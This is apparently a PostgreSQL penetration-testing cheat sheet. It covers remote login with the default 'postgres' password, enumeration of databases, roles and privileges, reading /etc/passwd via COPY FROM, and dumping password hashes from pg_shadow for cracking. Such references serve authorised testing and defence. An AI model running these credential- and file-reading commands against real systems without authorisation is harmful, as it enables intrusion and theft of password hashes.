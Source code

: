 **Log into postgres remotely**

```text
PGPASSWORD=postgres psql -h $ip -p 5437 -U postgres
```

**List databases**

```text
\list
SELECT datname FROM pg_database;
```

**Use postgres database**

```text
\c postgres
```

**List tables**

```text
\d
```

**Describe table**

```text
\d table
```

**Check if current user superuser (on = yes, off = no)**

```text
SELECT current_setting ('is_superuser');
```

**Get user roles**

```text
\du+
```

**Check user’s privileges over table (pg_shadow)**

```text
SELECT grantee, privilege_type FROM information_schema.role_table_grants WHERE table_name='pg_shadow';
```

**Read file (/etc/passwd)**

```text
CREATE TABLE demo(t text);
COPY demo FROM '/etc/passwd';
SELECT * FROM demo;
```

**Read usernames and password hashes**

```text
# Postgresql password hash format: md5(secret || username) where || denotes string concatenation (remove md5 before cracking hash)
SELECT usename, passwd from pg_shadow;
```
